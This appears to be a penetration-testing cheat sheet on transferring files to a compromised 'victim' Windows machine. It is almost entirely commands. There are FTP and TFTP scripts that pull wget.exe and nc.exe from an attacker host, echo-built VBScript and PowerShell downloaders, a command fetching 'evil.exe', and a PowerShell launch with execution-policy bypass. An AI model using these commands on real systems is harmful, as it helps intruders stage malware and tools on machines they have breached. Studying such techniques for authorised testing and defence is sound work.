 # Windows basics

## Transferring files

Why is this so much harder in Windows? I don't know.

## FTP

Even though many Windows versions have FTP clients, we can't use them interactively because it will kill shells. But we can run multiple commands from a file:  

On the victim machine, echo the following commands into a file:

```text
echo open [host] 21> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect:

```text
ftp -v -n -s:ftp.txt
```

## TFTP

TFTP is installed by default on Windows XP and Windows 2003. Kali also has a TFTP server:

```text
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

With this command you can serve files from `/srv/tftp`.

From a Windows machine, use this to transfer files:

```text
tftp -i [host] get nc.exe
```

### VBScript

Here is a good script to make a wget-clone in VB \(may need to be piped through unix2dos before copying it\):

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

To execute:

```text
cscript wget.vbs http://[hoste]/evil.exe evil.exe
```

### Powershell

Powershell can't be started in a non-interactive shell. But this script can start it:

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[host]/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

To execute:

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

